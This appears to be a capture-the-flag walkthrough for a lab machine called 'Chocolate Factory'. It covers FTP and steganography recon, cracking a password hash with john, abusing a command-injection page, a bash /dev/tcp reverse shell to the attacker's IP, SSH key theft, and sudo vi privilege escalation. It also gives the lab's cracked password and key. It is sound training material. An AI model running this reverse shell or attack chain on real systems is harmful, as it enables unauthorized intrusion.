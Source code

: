 # CHOCOLATE FACTORY

---------------------
## IP: `10.10.239.116`<br />

---------------------
##### Open Ports Via Nmap -

`nmap -sC -sV -oN nmap/initial 10.10.239.116`<br />

![image](images/nmap.png)

```
21
22
80
100
106
109
110
111
113
119
125
```

-----------------------
##### We saw `anonymous` ftp login is enabled -<br />

![image](images/anonFTP.png)

> we get a jpg file<br />

![image](images/ftp.png)

> we can extract hidden data inside this image using steghide:<br />

Leave the passphrase field empty (:<br />

`steghide extract -sf gum_room.jpg`<br />

> We get a `base-64` encoded txt file<br />

To encode it we can do-<br />

`cat b64.txt | base64 -d > decodedB64`<br />

![image](charlieHash.png)

Yay we get charlie user's hash, we can crack it using john/hashcat<br />

First, store the hash inside a file:<br />

`echo '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' > charlieHASH`<br />

```
john charlieHASH --w=/usr/share/wordlists/rockyou.txt
```

![image](images/john.png)

> We got the charlie's pass - <br />

```
cn7824
```

But we can't login via ssh with these creds, now i did a gobuster scan to find subdirectories (:<br />

`gobuster dir -u http://10.10.239.116 -w /usr/share/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 30 | tee gobuster.log`<br />

We get the following results-<br />

![image](images/gobuster.png)

```
/home.php
/index.html
```

-------------------
> Now there is a bit of a hoax and i don't know the why the owner did this?! lol<br />

1. If we navigate to `http://10.10.239.116/index.html`, we can see a login form. We can login via charlie creds.<br />

![image](images/index.png)

And we get redirected to `/home.php` and there's a command injection form, and we can execute and see results for commands like `id`, `whoami`, ...<br />

![image](images/home.png)

2. Or we can straight-forward navigate to `/home.php` and access that page, right!<br />

3. Never mind, let's get our rev-shell-<br />

`bash -c 'exec bash -i &>/dev/tcp/10.8.91.66/8888 <&1'`<br />

![image](images/www.png)

4. Let's stabilize our shell-<br />

`python3 -c 'import pty;pty.spawn("/bin/bash")'`<br />

`export TERM=xterm`<br />

`^Z` (ctrl+z)<br />

To put the process in background<br />

`stty raw -echo;fg`<br />

To foreground the process<br />

--------------------
##### Task 2 - Challenges <br />

1. Enter the key you found!<br />

> We can found the key in /var/www/html<br /> 

`cat key_rev_key`<br />

![image](images/key.png)

```
b'-VkgXhFf6sAEcAwrC6YR-SZbiuSb8ABXeQuvhcGSQzY='
```

2. What is Charlie's password?<br />

```
cn7824
```

3. change user to charlie<br />

> We already checked that charlie's cracked hash wasn't the pass for ssh<br />

So we can directly `cd /home/charlie` from `www-data` user <br />

Here we will find user's ssh private key `teleport`, copy it in you machine and login via ssh<br />

![image](images/teleport.png)

We can login without the need for pass now, cuz we got charlie's ssh private key <br />

But after copy/pasting the private key to our machine, we need to give it read and write permisssions:<br />

`chmod 600 teleport`<br />

`ssh -i teleport charlie@10.10.239.116`<br />

4. Enter the user flag<br />

```
flag{cd..............................}
```

-------------------
##### Privilege Escalation Of User `charlie`: <br />

> First, we try checking sudo abilities of the user, by doing-<br />

`sudo -l`<br />

![image](images/sudo.png)

We found `/usr/bin/vi`, cool we can go-ahead and check [GTFO-BIN]() for vi-<br />

![image](images/gtfo.png)

Ay, we are root `#` let's get our root flag<br />

`cd /root`<br />

We see a python script `root.py`, hmm<br />

> Let's cat that script and see what's inside it-<br />

![image](images/script.png)

Okay, it needs a key and we found a key in `/var/www/html`

> Let's run the python script-<br />

`python root.py`<br />

Enter the key we found...<br />

AY, we got our last flag, let's paste it and complete our challenge `<3`<br />

![image](images/complete.png)

5. Enter the root flag<br />

```
flag{ce..............................}
```


Congratulations Friend For Making It Up To Here<br />
h00dy<br />